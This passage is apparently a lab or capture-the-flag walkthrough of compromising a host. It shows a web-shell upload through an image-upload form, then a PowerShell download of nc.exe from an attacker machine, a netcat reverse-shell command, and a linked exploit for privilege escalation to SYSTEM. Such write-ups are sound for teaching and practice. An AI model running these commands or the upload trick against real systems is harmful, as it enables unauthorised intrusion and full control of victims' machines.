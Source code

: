 As we found a perl script in /cgi-bin/ we start fuzzing for another scripts and we found http://172.16.1.13/cgi-bin/cgi.cgi but after numerous tries we found it not vulnerable.

After some more fuzzing we found http://172.16.1.13/discuss/ where we can register a new user and it prompt for a user image. We found the directory where the images are uploaded after check the contact section (copy link of image and we found http://172.16.1.13/discuss/ups/1.jpg), so we upload a malicious image file. We uploaded directly the **[p0wny shell](https://github.com/flozz/p0wny-shell)** and it worked, so we get a shell in http://172.16.1.13/discuss/ups/p0wny.php

Download nc.exe (using -o flag, as IE has not been configured yet) and get a proper shell
	`powershell wget http://172.16.1.100:1234/nc.exe -o C:\Windows\Temp\nc.exe`
	`C:\Windows\Temp\nc.exe -e cmd.exe 172.16.1.100 9001`

In "Program Files (x86)" folder we found Druva which seems exploitable. After try **[this exploit](https://www.exploit-db.com/exploits/49211)** and running again the nc.exe reverse shell we got nt authority\\system
